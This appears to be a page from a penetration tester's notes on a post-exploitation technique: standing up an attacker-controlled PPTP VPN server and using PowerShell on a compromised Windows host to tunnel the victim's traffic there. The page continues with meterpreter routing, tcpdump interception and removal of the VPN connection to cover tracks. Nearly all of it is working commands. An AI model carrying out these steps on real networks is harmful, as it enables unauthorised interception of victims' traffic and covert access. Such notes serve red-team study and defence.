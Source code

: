 # Living off the Land

Install the dependency according to your package manager.

```
# apt install -y pptpd
```

For `localip` just include the gateway IP and `remoteip` just specify the available IP ranges that isn't occupied in the current subnet network.

```
# cat /etc/pptpd.conf
localip 192.168.0.1
remoteip 192.168.0.234-238
..[omitted]..
```

Specify the credentials.

```
# cat /etc/ppp/chap-secrets
# Secrets for authentication using CHAP
# client	server	secret			IP addresses
<username>  *       <password>      *
```

Create the firewall rules to accept incoming and outgoing PPTP network traffic.

```
# iptables -t nat -A POSTROUTING -o enp7s0 -j MASQUERADE
iptables -A FORWARD -i ppp0 -o enp7s0 -j ACCEPT
iptables -A FORWARD -i enp7s0 -o ppp0 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Enable port forwarding.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

Restart PPTP daemon service and check network statistics for the listening port.

```
# systemctl restart pptpd

# ss -antpl | grep :1723
```

```
$ ip address show enp7s0

# ip route
```

Then execute post module to make the target connect to the attacker's VPN tunnel.

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType PPTP -EncryptionLevel Required -PassThru
```

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType L2TP -EncryptionLevel Required -PassThru -L2tpPsk "<password>" -Confirm:$false -Force
```

Then the victim should be authenticated in the attacker's VPN tunnel.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>"
```

You can check the route network that contains the same configuration file (`/etc/pptpd.conf`) from `remoteip`.

```
metepreter > route
```

Intercept the packets.

```
# tcpdump -i <interface>
```

Delete the VPN connection.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>" | Remove-VpnConnection -Force -Confirm:$false
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Gathering Information/Windows/WireTap/MITM/C2 Frameworks/Metasploit]]

### Microsoft

- [Powershell Module: `Add-VpnConnection`](https://learn.microsoft.com/en-us/powershell/module/vpnclient/add-vpnconnection?view=windowsserver2025-ps)

### TrustedSec

- [TrustedSec: Abusing Windows Built-in VPN Providers](https://trustedsec.com/blog/abusing-windows-built-in-vpn-providers)